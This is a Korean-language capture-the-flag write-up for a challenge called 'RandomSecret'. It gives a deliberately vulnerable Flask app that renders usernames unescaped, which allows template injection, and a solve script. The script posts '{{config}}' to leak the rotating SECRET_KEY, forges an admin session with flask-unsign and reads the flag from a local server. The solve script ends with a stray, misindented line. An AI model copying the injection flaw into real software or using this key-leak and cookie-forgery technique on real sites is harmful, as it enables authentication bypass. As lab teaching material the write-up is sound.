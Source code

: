 # RandomSecret

# Usage
- 공란

# Concept
- flask secret_key
- ssti

# Writeup
문제 컨셉에 경우 ssti로 flask로 secret_key를 leak한뒤 flask-unsign으로 세션을 만들어 인증하면 풀리는 문제입니다. secret_key를 고정하지 않고 0.5초마다 계속해서 바뀌게 해서 무조건 요청을 날려야만 풀리게 만들었습니다. flask의 secret_key가 어떤 존재인지 공부하자는 의미에서 만든 문제입니다. 

#### app.py
```py
from flask import Flask, render_template, session, redirect, url_for, request,render_template_string
import os
import threading
import time


try:
    FLAG = open("./flag.txt", "r").read()
except :
    FLAG = "hspace{fake_flag}"

app = Flask(__name__)
secret_key_lock = threading.Lock()
users = {
    "admin": "Access denied!!",
    "guest": "guest"
}

def generate_new_secret_key():
    return os.urandom(30).hex()

def update_secret_key():
    while True:
        time.sleep(0.5)
        with secret_key_lock:
            app.secret_key = generate_new_secret_key()
thread = threading.Thread(target=update_secret_key)
thread.start()

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/admin')
def admin():
    if 'admin' not in session:
        return render_template_string('<script>alert("You are not admin!");location.href="/login"</script>')
    else:
        return "Hello admin here is "+FLAG

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if len(username) > 11: 
            return render_template_string('<script>alert("username too looooong"); location.href="/login"</script>')
        if username == 'guest' and password == users.get('guest'):
            session['guest'] = True
            return redirect(url_for('guest'))
        elif username in users and users[username] == password:
            session['admin'] = True if username == 'admin' else False
            return redirect(url_for('/'))
        else:
            return render_template_string(f"{username} is wrong username or password")
    return render_template('login.html')


@app.route('/guest')
def guest():
    if 'guest' not in session:
        return render_template_string('<script>alert("You are not guest!");location.href="/login"</script>')
    else:
        return "Hello guest"

if __name__ == '__main__':
    app.secret_key = generate_new_secret_key()
    app.run(host='0.0.0.0', port=4000)
```
간단하게 로그인할 수 있는 사이트입니다. admin엔드 포인트에 admin세션을 가지고 있으면 flag를 리턴합니다. 유저제공 파일에서는 admin의 비밀 번호를 가려놓았습니다.
공격벡터의 경우 로그인 엔드포인트에서 잘못된 username 사용시 잘못된 username을 그대로 렌더링해서 ssti가 터집니다. 길이제한을 10자이하로 걸어놓아서 RCE를 막았습니다. 
{{config}}로 secret_key를 leak 하면 됩니다. 그러나 app.py를 보면 secret_key를 0.5초마다 바꿔지기 때문에 익스플로잇 코드를 작성해 flask-unsign으로 생성한 세션으로 admin엔드포인트에 get요청을 날려야합니다. 


#### solve.py

```py

#pip install flask-unsign
import requests
import html
import subprocess

def exploit_admin_page(url, payload):
    try:
        res = requests.post(url=url+'/login', data=payload)
        decoded_text = html.unescape(res.text)
        start_index = decoded_text.find("'SECRET_KEY': '") + len("'SECRET_KEY': '")
        end_index = decoded_text.find("'", start_index)
        secret_key = decoded_text[start_index:end_index]
        print("SECRET_KEY:", secret_key)
        exploit = subprocess.run(['flask-unsign', '--sign', '--cookie', '{\'admin\':True}', '--secret', secret_key], capture_output=True)
        cookie_value = exploit.stdout.strip().decode('utf-8')
        res = requests.get(url=url + "/admin", cookies={"session": cookie_value})
        if "hspace" in res.text:
            print(res.text)
        else:
            exploit_admin_page(url, payload)
    except Exception as e:
        print("Error occurred:", e)

# Flask 서버 URL
url = 'http://localhost:2000'

# 유효한 사용자 정보로 POST 요청을 보냅니다.
payload = {"username": "{{config}}", "password": "aa"}

# 함수 호출
exploit_admin_page(url, payload)

    print("Error occurred:", e)


```
solve코드를 설명하자면 먼저 flask-unsign을 설치해야합니다. pip install flask-unsign로 설치할 수 있습니다.{{config}}를 날려 SECRET_KEY를 leak하고 SECRET_KEY로 admin은 True인 세션을 생성합니다. 생성된 세션으로 admin엔드포인트에 요청을 날리면 flag를 줍니다. 그리고 굳이 flask-unsign을 안쓰고 요청을 날려 secret_key를 leak하고 그 key로 flask를 구현해서 세션을 생성해서 인증해서 풀수도 있습니다. 

